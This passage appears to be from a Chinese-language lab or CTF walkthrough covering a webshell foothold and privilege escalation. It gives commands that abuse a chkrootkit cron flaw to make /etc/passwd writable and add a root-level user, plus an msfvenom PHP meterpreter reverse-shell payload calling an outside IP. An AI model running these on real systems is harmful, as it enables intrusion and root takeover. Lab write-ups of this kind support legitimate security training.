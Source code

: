 但反弹不了shell 很离谱

插一个一句话木马

![image.png](https://s2.loli.net/2025/05/01/wCJGjRtY8MHpKmX.png)

![image.png](https://s2.loli.net/2025/05/01/NWkD3vqZ8tozjf2.png)

蚁剑连接成功 然后上传一个反弹shell然后反弹到kali中

## 提权
### chrootkit提权
简单收集一下信息 
![image.png](https://s2.loli.net/2025/05/01/T8adCgiU3XwG6hI.png)


#注意 要检查一个地方 /etc/cron* 计划

![image.png](https://s2.loli.net/2025/05/01/mNyWC2eh1E39rXT.png)

发现有个chrootkit

#注意 chrootkit提权

有个漏洞是这么说的

```
cd /tmp
echo "chmod 777 /etc/passwd" > update
chmod 777 update
cat update

echo 'qq:$1$qq$oMgRCtJEEoFVvNbosRA.B1:0:0::/root:/bin/bash' >> /etc/passwd

```

![image.png](https://s2.loli.net/2025/05/01/e9pVdarAQR6v5Ew.png)

切换到我们新建的root用户就能成功提权

![image.png](https://s2.loli.net/2025/05/01/95gDALMXrFmKfyV.png)

### msf提权
需要创建一个msfvenom 用msf来反弹shell（multi/handler）

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=61.139.2.153 LPORT=443 > shellde_php.php 

# msf需要配置相同的payload
```

![image.png](https://s2.loli.net/2025/05/01/LxsEiDIMBJa76HX.png)

search chrootkit 配置lport和session就能成功提权
